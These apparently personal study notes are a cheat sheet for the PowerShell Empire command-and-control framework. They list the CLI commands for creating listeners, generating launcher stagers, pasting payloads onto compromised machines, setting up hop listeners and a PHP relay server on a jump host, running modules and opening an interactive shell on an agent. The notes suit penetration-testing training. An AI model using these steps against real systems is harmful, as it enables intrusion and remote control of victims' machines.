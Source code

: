 # POWERSHELL EMPIRE C2 FRAMEWORK 

## LISTENERS

### Listeners in Empire are used to receive connections from stagers.  The default listener is the HTTP listener. This is what we will be using here, although there are many others available. It's worth noting that a single listener can be used more than once -- they do not die after their first usage.

#### Listener selection: uselistener LISTENER

#### Listener options: options, set OPTION VALUE, set Name NAME, set Host OUR_IP, set Port OUR_PORT

#### Launch listener: execute

#### Stop listener: kill LISTENER_NAME

#### Exit out of this menu: back, Main menu: main

## STAGERS

###  Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

### We can generate stagers in either Empire CLI or Starkiller. In most cases these will be given as script files to be uploaded to the target and executed. Empire gives us a huge range of options for creating and obfuscating stagers for AV evasion; however, we will not be going into a lot of detail about these here.

#### Stager generation: usestager (Include space to get a list of available stagers in a dropdown menu)

#### General purpose stager: multi/launcher

#### Specify stager: usestager multi/launcher

#### Stager options: options, set OPTION VALUE set Listener LISTENER_NAME, execute

## AGENTS

#### Agent setup: Copy and paste stager to a script (name of your choice) and then transfer it on to the machine. Or just copy/paste the entire script to compromised machine to connect to the C2 server.

#### Agent interaction: agents (See full list of available agents), interact AGENT_NAME then help (Check your options to execute on compromised machine)

#### Switch back to agents menu: back

#### Kill agent: kill AGENT_NAME

#### Rename agent: rename AGENT_NAME NEW_AGENT_NAME

## HOP LISTENERS

### Hop Listeners create what looks like a regular listener in our list of listeners (like the http listener we used before); however, rather than opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there. These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine. As such, the hop listener in the listeners menu can be thought of as more of a placeholder -- a reference to be used when generating stagers.

#### Listener creation: uselistener http_hop

#### Hop Listener setup: set RedirectListener FIRST_LISTENER_NAME, set Host COMPROMISED_IP set Port PORT(Above 15000)

#### Execute

#### Generate stager for hop listener: use multi/launcher set Listener http_hop

#### Copy/paste payload to target's command line

## START JUMP SERVER

### Example:

#### mkdir /tmp/hop-EXAMPLE

#### cd /tmp/hop-EXAMPLE

#### Attacker: cd /tmp/http_hop && zip -r hop.zip

#### Transfer the zipped file to compromised machine
 
#### Compromised machine: unzip hop.zip

#### Compromised machine: Create a web server to host the payloads generated by the framework: php -S 0.0.0.0:PORT (Above 15000) &>/dev/null &

## MODULES

#### Module usage on an empire agent: usemodule /PATH/TO/MODULE

#### usemodule: Shows list of modules to be used on target

#### When we choose the module we want to use type: options

#### Configuration: set agent AGENT_NAME, execute

## INTERACTIVE SHELL

### The interactive shell was a new feature in Empire 4.0. It effectively allows you to access a traditional pseudo-command shell from within Starkiller or the Empire CLI Client. This can be used to execute PowerShell commands, as you would in a Powershell reverse shell.

#### shell: Access an interactive shell by typing it on an agent. CTRL+C to return rto shell menu.
